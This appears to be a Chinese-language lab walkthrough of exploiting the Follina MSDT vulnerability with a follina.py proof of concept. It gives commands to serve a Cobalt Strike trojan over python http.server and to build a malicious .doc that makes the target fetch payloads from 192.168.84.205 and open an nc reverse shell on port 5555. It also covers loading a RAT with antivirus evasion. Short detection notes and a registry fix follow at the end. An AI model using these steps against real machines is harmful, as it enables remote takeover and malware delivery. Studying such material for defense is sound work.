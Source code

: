 在cs上生成木马，这个不用多说。<br/> 创建pocexe文件夹，将nc，cs木马放进去，并在该目录下开启简单的http.server服务：

<br/> 开启服务：<br/>`python -m http.server 8080`

<br/> 改poc（follina.py）文件下载路径：

生成恶意文档：<br/>`python follina.py -i 192.168.84.205 -p 8000 -r 5555 #-r为反弹shell的端口，这里暂时用不到`

将生成的follina.doc放在靶机打开：

看到cs上线：

查看进程：

文件存在：

##### nc反弹shell：

改poc配置：<br/>  

执行命令：<br/>`python follina.py -i 192.168.84.205 -p 8000 -r 5555 #这里用到了 -r 反弹shell`

将生成得doc文档放在靶机执行：

反弹shell成功：

看到nc运行：

##### 大灰狼远控

用了7.5的版本，9.5的版本在虚拟机运行报错，大半天都没解决。<br/> 生成木马：

系统设置，配置监听端口：

<br/> 然后与上面的两种方式一样，加载大灰狼木马

目标机运行：

上线：

免杀做好，还是比较强大的：

##### 简单分析

将doc文件后缀改为zip：

解压：

<br/> 可以根据这个ip溯源反制。<br/> 检测的思路：

```
从cmd/msedge/office这些进程诞生的msdt.exe进程是可疑的。</code><code>msdt.exe里参数带有/../../xxxx/.exe，恶意payload。 直接检测这个也是可以的。
```

### 修复建议

以管理员身份运行命令提示符，执行以下两条命令：

```
reg export HKEY_CLASSES_ROOT\ms-msdt filename</code><code>reg delete HKEY_CLASSES_ROOT\ms-msdt /f
```
